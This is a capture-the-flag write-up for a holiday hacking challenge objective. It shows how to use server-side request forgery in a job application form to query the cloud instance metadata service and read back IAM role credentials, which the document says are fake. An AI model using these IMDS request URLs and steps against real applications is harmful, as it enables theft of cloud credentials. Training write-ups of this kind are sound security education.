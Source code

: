 # Objective 10: Now Hiring!
**Location: https://apply.jackfrosttower.com/**  
**Hints provided by Noxious O. D'or after completion of [IMDS Exploration](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/IMDS%20Exploration.md)**

This objective is to get familiar with SSRF to IMDS URLs.

The website's application form consumes the user's name, resume (as file upload) and the URL to the public NLBI report.

After the submission, the item specified by the URL is retrieved by the website and then shown on the "submission accepted" screen using the URL https://apply.jackfrosttower.com/images/{username}.jpg

By choosing the right IMDS URLs, the secret access key for the S3 bucket can be retrieved using CURL:

URL 1 (get role name):
```
http://169.254.169.254/latest/meta-data/iam/security-credentials
```
Result:
```
joergen@northpole:~$ curl https://apply.jackfrosttower.com/images/joergen.jpg
jf-deploy-role
```

URL 2 (get security credentials for this role):
```
http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role
```

```
joergen@northpole:~$ curl https://apply.jackfrosttower.com/images/joergen.jpg
```
```json
{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
	"Expiration": "2026-05-02T18:50:40Z"
}
```
So the secret access key for the S3 bucket is **CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX**

**Achievement: SSRF to IMDS to S3 Bucket Access**

### Additional Information

This objective uses the same IMDS dataset as the [IMDS Exploration terminal](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/IMDS%20Exploration.md).
For the terminal it is confirmed to be fake information hosted from a local process. In addition - due to the fact, that the region `np-north-1` is not a valid AWS region, it does not make sense trying to get access to a related S3 bucket.
